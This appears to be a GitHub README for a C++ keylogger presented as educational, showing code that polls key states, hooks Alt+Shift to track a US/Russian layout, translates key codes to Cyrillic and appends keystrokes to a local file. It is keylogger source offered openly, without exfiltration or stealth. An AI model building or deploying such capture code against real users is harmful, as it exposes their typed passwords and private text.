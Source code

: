 # This is a regular keylogger created for educational purposes in c++.

My keylogger tracks the key code thanks to the `GetAsyncKeyState()` function,  but to determine the keyboard layout I created a `layout()` function:
```C++
void layout() {
    HKL layout = GetKeyboardLayout(0);
    DWORD layoutId = LOWORD(layout);

    if (layoutId == 0x0409) {
        laught = true;//use
    }
    else {
        laught = false;//ru
    }
}
```
This function detects laught only after running the code, so I created an `Alt + Shift` tracking hook to assign a value to the variable `laught`
```c++
LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode == HC_ACTION)
    {
        if ((GetAsyncKeyState(VK_MENU) & 0x8000) && (GetAsyncKeyState(VK_SHIFT) & 0x8000))
        {

            if (laught) {
                laught = false;//ru
            }
            else {
                laught = true;//en
            }

        }
    }
    return CallNextHookEx(hook, nCode, wParam, lParam);
}
```

For the hook I needed to use the `<thread>` library to simultaneously capture the `Alt + Shift` key combination and also to check the key code.

**After determining the layout, the keylogger translates the key code into Cyrillic using `translateLetter()` or immediately writes the characters to the file `"THIS_IS_KEYLOGGER.txt"`.**
```c++
void saveData(char data) {
    ofstream log;
    log.open("THIS_IS_KEYLOGGER.txt", ofstream::app);

    if (log.is_open()) log << data;

    log.close();
    cout << data;
}

char translateLetter(char letter) {
    switch (letter)
    {
    case 13: return '\n';
    case 32: return ' ';

    case 65: return 'Ф';
    case 66: return 'И';
    case 67: return 'С';
    case 68: return 'В';
    case 69: return 'У';
    case 70: return 'А';
    case 71: return 'П';
    case 72: return 'Р';
    case 73: return 'Ш';
    case 74: return 'О';
    case 75: return 'Л';
    case 76: return 'Д';
    case 77: return 'Ь';
    case 78: return 'Т';
    case 79: return 'Щ';
    case 80: return 'З';
    case 81: return 'Й';
    case 82: return 'К';
    case 83: return 'Ы';
    case 84: return 'Е';
    case 85: return 'Г';
    case 86: return 'М';
    case 87: return 'Ц';
    case 88: return 'Ч';
    case 89: return 'Н';
    case 90: return 'Я';

    default: return ' ';
        break;
    }
}
```
